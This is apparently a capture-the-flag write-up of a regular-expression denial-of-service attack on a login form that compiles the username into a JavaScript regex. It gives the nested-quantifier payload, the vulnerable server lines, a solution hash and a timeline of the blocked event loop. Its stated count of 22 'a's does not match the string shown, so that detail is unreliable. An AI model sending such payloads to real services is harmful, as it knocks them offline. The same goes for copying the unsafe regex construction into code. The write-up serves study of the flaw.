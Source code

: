 The attack requires:

1. **Username:** A regex pattern that causes catastrophic backtracking
2. **Password:** Input that triggers the backtracking

**Username:** `((a+)+)+b`

This pattern has **triple-nested quantifiers**, making the backtracking even worse.

**Password:** `aaaaaaaaaaaaaaaaaaaac` (22 'a's followed by 'c')

The 'c' at the end ensures the pattern fails to match (since the pattern expects 'b'), forcing the engine to try all possible combinations.

### Implementation

```javascript
// Login attempt
username: ((a+)+)+b
password: aaaaaaaaaaaaaaaaaaaac
```

When the server validates this input:

```javascript
const pattern = new RegExp(username); // Creates pattern: /((a+)+)+b/
const result = pattern.test(password); // Tests: "aaaaaaaaaaaaaaaaaaaac"
```

The regex engine enters catastrophic backtracking, consuming CPU for 5+ seconds and blocking the event loop.

### Result

**Success hash:** `24eca8e303b440182e78bff6ac1474a6e5d445466f478b209ef530096eafaf4ef6d34b89f0ae72cc842cc6a347dc54566fcb391262c6886bfd08109e345ad5ec`

The server hung for over 5 seconds, proving the ReDoS attack was successful.

## Why It Works

### The Vulnerability Chain

1. **Application accepts user input as regex** - The username field is used to construct a regex pattern
2. **No timeout on regex execution** - The regex engine runs indefinitely
3. **Single-threaded environment** - JavaScript's event loop is blocked
4. **Nested quantifiers** - The pattern `((a+)+)+b` causes exponential backtracking
5. **Input designed to fail** - The password ends with 'c' instead of 'b', forcing maximum backtracking

### Execution Timeline

```
t=0ms:     Server receives login request
t=0ms:     Creates regex pattern: /((a+)+)+b/
t=0ms:     Starts matching against: "aaaaaaaaaaaaaaaaaaaac"
t=0ms:     Regex engine begins backtracking
t=1000ms:  Still backtracking...
t=2000ms:  Still backtracking...
t=3000ms:  Still backtracking...
t=4000ms:  Still backtracking...
t=5000ms:  Still backtracking...
t=5000ms+: Finally completes (no match)
t=5000ms+: Server responds with hash (proving >5s delay)
```
